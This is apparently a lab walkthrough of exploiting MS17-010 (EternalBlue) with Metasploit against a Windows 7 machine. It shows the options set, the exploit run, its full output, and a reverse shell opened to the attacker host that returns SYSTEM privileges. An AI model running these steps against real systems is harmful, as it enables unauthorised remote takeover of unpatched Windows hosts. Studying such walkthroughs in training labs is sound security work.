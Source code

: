     msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

setup parameters

set the target machine ip
    $ set RHOSTS {10.10.xx.xx}

set the attacker machine ip
    $ set LHOST {10.13.x.x} 

All parameters are set, now it's time to run the exploit

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

    [*] Started reverse TCP handler on 10.13.2.185:4444 
    [*] 10.10.39.230:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.39.230:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.39.230:445      - Scanned 1 of 1 hosts (100% complete)
    [+] 10.10.39.230:445 - The target is vulnerable.
    [*] 10.10.39.230:445 - Connecting to target for exploitation.
    [+] 10.10.39.230:445 - Connection established for exploitation.
    [+] 10.10.39.230:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.39.230:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.39.230:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.39.230:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.39.230:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.39.230:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.39.230:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.39.230:445 - Sending all but last fragment of exploit packet
    [*] 10.10.39.230:445 - Starting non-paged pool grooming
    [+] 10.10.39.230:445 - Sending SMBv2 buffers
    [+] 10.10.39.230:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.39.230:445 - Sending final SMBv2 buffers.
    [*] 10.10.39.230:445 - Sending last fragment of exploit packet!
    [*] 10.10.39.230:445 - Receiving response from exploit packet
    [+] 10.10.39.230:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.39.230:445 - Sending egg to corrupted connection.
    [*] 10.10.39.230:445 - Triggering free of corrupted buffer.
    [*] Sending stage (336 bytes) to 10.10.39.230
    [*] Command shell session 1 opened (10.13.2.185:4444 -> 10.10.39.230:49290) at 2023-02-19 06:40:50 -0500
    [+] 10.10.39.230:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.39.230:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.39.230:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


    Shell Banner:
    Microsoft Windows [Version 6.1.7601]
    -----
            

    C:\Windows\system32>whoami
    whoami
    nt authority\system

